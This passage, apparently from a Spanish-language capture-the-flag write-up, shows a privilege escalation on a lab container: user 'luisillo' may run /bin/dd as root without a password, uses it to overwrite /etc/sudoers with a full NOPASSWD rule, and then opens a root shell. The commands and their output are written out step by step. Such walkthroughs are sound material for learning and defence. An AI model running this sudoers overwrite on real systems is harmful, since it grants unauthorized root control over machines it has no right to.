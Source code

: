 Hemos pivotado con éxito al usuario `luisillo`.

Comprobamos de nuevo permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for luisillo on 5bc7cbda960b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on 5bc7cbda960b:
    (ALL) NOPASSWD: /bin/dd
```

Observamos que podemos ejecutar el binario `dd` con privilegios de `root`. El binario `dd` puede escribir sobre archivos privilegiados, por lo que lo podemos usar para escalar privilegios.

Primero definimos como variable el archivo en el que queremos hacer cambios.

```bash
LFILE=/etc/sudoers
```

Inyectamos el comando.

```bash
echo "luisillo ALL=(ALL) NOPASSWD:ALL" | sudo /bin/dd of=$LFILE
```

Info:
```
0+1 records in
0+1 records out
32 bytes copied, 3.048e-05 s, 1.0 MB/s
```

Los cambios se han aplicado correctamente. 

Gracias a esta modificación, ahora el usuario `luisillo` puede autenticarse como `root` sin tener que proporcionar una contraseña.

```bash
sudo /bin/bash
```

Info:
```
root@5bc7cbda960b:/tmp# whoami
root
root@5bc7cbda960b:/tmp#
```

Ya somos root!